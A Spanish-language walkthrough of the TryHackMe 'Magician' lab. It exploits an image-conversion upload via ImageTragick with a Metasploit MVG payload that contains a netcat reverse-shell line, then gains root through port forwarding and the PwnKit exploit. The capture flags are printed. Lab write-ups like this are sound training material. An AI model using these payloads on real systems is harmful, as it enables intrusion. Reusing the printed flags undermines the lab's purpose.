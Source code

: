 ```yaml
---
layout: post
author: jh3x
---
```


## WriteUp máquina **Magician**

Esta es una maquina con un nivel de dificultad Fácil en TryHackme vamos a ello:  
### Fase de reconocimineto
Como primer paso realizamos un ping a la maquina para identificar ante que maquina estamos:  

```console
PING 10.10.163.129 (10.10.163.129) 56(84) bytes of data.
64 bytes from 10.10.163.129: icmp_seq=1 ttl=63 time=236 ms
```

Como observamos la maquina nos responde con un TTL=63 por lo que nos enfrentamos a una maquina linux.  

El siguiente paso es ver que puertos abiertos tiene la maquina por lo que realizamos el siguiente escaneo:  

```console
nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.163.129 -oA allPorts
```
Y vemos los siguientes puertos abiertos:

| **PORT**  | **STATE SERVICE** | **SERVICE**     |
| 21/tcp    | open              | ftp             |
| 8080/tcp  | open              | http-proxy      |
| 8081/tcp  | open              | blackice-icecap |

Teniendo los puertos abiertos identificamos la version de los servicios expuestos con el siguiente comando:

```console
nmap -sC -sV -p21,8080,8081 10.10.163.129 -oA targeted
```
Dando como resultado los siguientes servicios:

```console
Host: 10.10.163.129 (10.10.163.129)	Status: Up
Host: 10.10.163.129 (10.10.163.129)	Ports: 21/open/tcp//ftp//vsftpd 2.0.8 or later/, 8080/open/tcp//http-proxy///, 8081/open/tcp//http//nginx 1.14.0 (Ubuntu)/
```
Inspeccionamos la web vemos dos puertos abiertos 8080 y 8081 en este caso nos enfocamos en el servicio web  
en el puerto 8081 ya que exsite una funcionalidad de subida de archivos donde la pagina convierte un archivo png a jpg:

![Panel](/images/writeup/magician/convert.png)

### Fase de explotacion

Despues de revisar la funcionalidad del sitio web en el que se convierte un archivo png a jpg encontre una potencial vulnerabilidad: *CVE-2016-3714*  
como primer paso hice uso del payload disponible en: **[ImageTragic](https://book.hacktricks.xyz/pentesting-web/file-upload#imagetragic)** pero la shell no se establecia correctamente

![Panel](/images/writeup/magician/Primer.png)


Luego le heche un vistazo a un exploit disponible en metaslpoit:


```console
msf6 exploit(unix/fileformat/imagemagick_delegate) > use exploit/linux/redis/redis_replication_cmd_exec

msf6 exploit(unix/fileformat/imagemagick_delegate) > show options

Module options (exploit/unix/fileformat/imagemagick_delegate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILENAME   msf.png          yes       Output file
   USE_POPEN  true             no        Use popen() vector


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <IP>             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   1   MVG file

```
Teniendo como resultado el siguiente payload generado en la ruta /root/.msf4/local/msf.png  


```console
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/qjgz; nc <IP> 4444 0</tmp/qjgz | /bin/sh >/tmp/qjgz 2>&1; rm /tmp/qjgz'
pop graphic-context
pop graphic-context

```
Se puede subir directamente la imagen generar pero yo decidi simplemente copiar el contenido del archivo a la peticion  
interceptada de burpsuite:

![Panel](/images/writeup/magician/revburp.png)

Subiendo este archivo nos ponemos a la escucha con netcat y recibimos una shell reversa para luego hacer un tratamiento de la tty:

```console
root@parrot ▓▒░ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.89.16 55846
script /dev/null -c bash
Script started, file is /dev/null
magician@magician:/tmp/hsperfdata_magician$ ^Z
zsh: suspended  nc -nlvp 4444

root@parrot ▓▒░ stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
                               reset xterm
```
Exportamos las variables de entorno:

```console
magician@magician:/tmp/hsperfdata_magician$ export TERM=xterm
magician@magician:/tmp/hsperfdata_magician$ export SHELL=bash

```

Y podemos ver la flag del usuario magician:

```console
THM{simsalabim_hex_hex}
```
### Escalada de privilegios

Como primer paso en la escalada de privilegios buscamos archivos suspechosos que puedan tener credenciales o archivos de configuracion  
en este caso encontramos un archivo 
![Panel](/images/writeup/magician/archive.png)

Inspeccionando el contenido de este archivo nos encontramos con un mensaje:  
  
**"The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows."**  
  
El mensaje nos da a entender que hay un puerto a la escucha por lo que verificamos puertos abiertos por lo que verificamos puertos a la escucha:  
  
![Panel](/images/writeup/magician/netstat.png)

Si bien no podemos ver este puerto desde afuera podemos realizar una tecnica llamada port forwarding con el siguiente comando:  

```console
magician@magician:~$ ssh -R 6666:127.0.0.1:6666 root@10.9.3.94                                                                                                                             
root@10.9.3.94's password:                                                                                                                                                                 
```
Asi redirigimos todo el trafico del puerto 6666 a nuestra maquina en el puerto 6666.


```console
root@parrot ▓▒░ nmap -sCV -p6666 127.0.0.1  
PORT     STATE SERVICE VERSION
6666/tcp open  http    Gunicorn 20.0.4                                                                                                                                                  
|_http-server-header: gunicorn/20.0.4                                                                                                                                                   
|_http-title: The Magic cat                                                                                                                                                             
|_irc-info: Unable to open connection  
```
Vemos un servicio HTTP expuesto pero el navegador restringe este tipo de puertos, por lo que debemos habilitar este puerto para ello debemos realizar el siguiente paso en firefox:  
  
![Panel](/images/writeup/magician/portsRestricted.png)

Habilitando este puerto en el navegador observamos un panel donde podemos ver un archivo en este caso se selecciona esta opcion hasta obtener una cadena en base64:  
  
![Panel](/images/writeup/magician/pANEL6666.png)  
  
Decodificamos el resultado y obtenemos la flag:
  
```console
root@parrot ▓▒░ echo "VEhNe21hZ2ljX21heV9tYWtlX21hbnlfbWVuX21hZH0K" | base64 -d
THM{magic_may_make_many_men_mad}
```
### Forma alternativa
Un reciente vulnerabilidad fue expuesta en estas fechas por lo que hice la prueba si este binario funcionaria ya que pkexec tiene privilegios SUID  
para ello descargamos el exploit disponible en **[Pwnkit](https://github.com/ly4k/PwnKit)** :


```console
magician@magician:/tmp$ chmod +x  PwnKit 
magician@magician:/tmp$ ./PwnKit 
root@magician:/tmp# cd /root
root@magician:~# ls
ImageMagick  flask  root.txt
root@magician:~# cat root.txt 
THM{magic_may_make_many_men_mad}
```

